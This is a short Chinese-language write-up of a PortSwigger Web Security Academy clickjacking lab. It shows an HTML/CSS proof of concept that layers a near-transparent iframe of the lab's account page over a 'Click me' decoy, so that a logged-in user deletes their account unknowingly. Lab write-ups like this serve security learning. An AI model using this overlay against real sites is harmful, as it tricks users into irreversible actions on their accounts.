 该网页有一个删除账户操作，存在安全的csrf令牌

但是可以尝试点击劫持



poc:

```javascript
//设置div和ifame标签的样式
<style>
//嵌入受害网站
   iframe {
       //位置：相对
       position:relative;
       width:500px;
       height: 700px;
       //透明度
       opacity: 0.1;
       z-index: 2;
   }
   div {
       //位置：完全的
       position:absolute;
       top:380px;
       left:60px;
       z-index: 1;
   }
</style>
<div>Click me</div>
<iframe src="https://ac6d1f2a1f15dcbf800204d2001f00b8.web-security-academy.net/account"></iframe>
```

将该脚本放置到恶意网站上，诱使用户再登陆受害网站时，访问该页面，用户只要点击了页面上的引诱性的小游戏，即可实现点击劫持。

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/portswigger-labs/点击劫持/images/7FE7B296A17B48D8B6286388EE1961A3clipboard.png)

